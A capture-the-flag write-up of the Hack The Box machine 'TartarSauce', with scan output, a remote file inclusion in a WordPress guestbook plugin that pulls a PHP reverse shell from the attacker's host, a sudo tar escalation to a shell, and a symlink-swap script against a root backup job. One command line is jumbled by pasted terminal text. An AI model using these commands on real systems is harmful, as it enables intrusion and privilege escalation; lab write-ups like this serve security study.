


# TartarSauce
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.88 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 18:17 BST
Nmap scan report for 10.10.10.88 (10.10.10.88)
Host is up (0.10s latency).
Not shown: 65449 filtered tcp ports (no-response), 85 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.74 seconds
```
```
└─$ nmap -Pn -p80 -sC -sV 10.10.10.88 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 18:18 BST
Nmap scan report for 10.10.10.88 (10.10.10.88)
Host is up (0.097s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.38 seconds

```

- Web Server



- `feroxbuster`
```
└─$ feroxbuster -u http://10.10.10.88/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --depth 2 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.88/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, html]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      330c http://10.10.10.88/webservices/monstra-3.0.4 => http://10.10.10.88/webservices/monstra-3.0.4/
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      563l      128w    10766c http://10.10.10.88/
200      GET      563l      128w    10766c http://10.10.10.88/index.html
301      GET        9l       28w      319c http://10.10.10.88/webservices/wp => http://10.10.10.88/webservices/wp/
200      GET        7l       12w      208c http://10.10.10.88/robots.txt
301      GET        9l       28w      316c http://10.10.10.88/webservices => http://10.10.10.88/webservices/
```

- `http://10.10.10.88/webservices/wp/` is broken
  - Add `10.10.10.88     tartarsauce.htb` to `/etc/hosts`




- `wpscan`
```
└─$ wpscan --url http://10.10.10.88/webservices/wp/ --enumerate p --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.10.88/webservices/wp/ [10.10.10.88]
[+] Started: Tue Oct 17 19:09:19 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.88/webservices/wp/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.88/webservices/wp/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.88/webservices/wp/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.10.88/webservices/wp/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.10.88/webservices/wp/, Match: 'WordPress 4.9.4'

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:01:04 <==========================================================================================================================================================> (1500 / 1500) 100.00% Time: 00:01:04
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
 | Last Updated: 2023-09-13T20:24:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.3
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.0.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt

[+] gwolle-gb
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2023-09-29T11:20:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.6.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Oct 17 19:10:26 2023
[+] Requests Done: 1510
[+] Cached Requests: 32
[+] Data Sent: 449.591 KB
[+] Data Received: 261.322 KB
[+] Memory used: 200.883 MB
[+] Elapsed time: 00:01:07

```

## Foothold
- We have few plugins installed
  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
  - If we check changelogs, we see that the actual version is `1.5.3`


- [RFI](https://www.exploit-db.com/exploits/38861) in `1.5.3` version of `Gwolle Guestbook WordPress plugin`
  - `curl http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=htt│└─$ python3 -m http.server 80
p://10.10.16.9/test `


- I'll have to rename a reverse shell file to `wp-load.php`
  - I used `/usr/share/webshells/php/php-reverse-shell.php`


## User
- `sudo` rights
```
www-data@TartarSauce:/var/www/html$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

- [gtfobins](https://gtfobins.github.io/gtfobins/tar/#sudo)
```
www-data@TartarSauce:/var/www/html$ sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
/bin/tar: Removing leading `/' from member names
onuma@TartarSauce:/var/www/html$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
onuma@TartarSauce:/var/www/html$ 
```
## Root
- I ran `pspy32`


- Content
```
onuma@TartarSauce:/tmp$ cat /usr/sbin/backuperer
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check


# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

- We can exploit it by adding a link to `/root/root.txt` to archive during `sleep`
  - The content of the flag will be displayed in error logs
  - The archive will be located in `/var/tmp/.[hash]`
  - We will use script
```
#!/bin/bash

file=$(find /var/tmp -type f -name ".*")
cp $file .
filename=$(echo $file | cut -d'/' -f4)

tar -zxf $filename

rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

rm $filename

tar czf $filename var

mv $filename $file
rm $filename
rm -rf var

tail -f /var/backups/onuma_backup_error.txt
```

- As soon as we see an archive in `/var/tmp`, we execute our script and get our flag

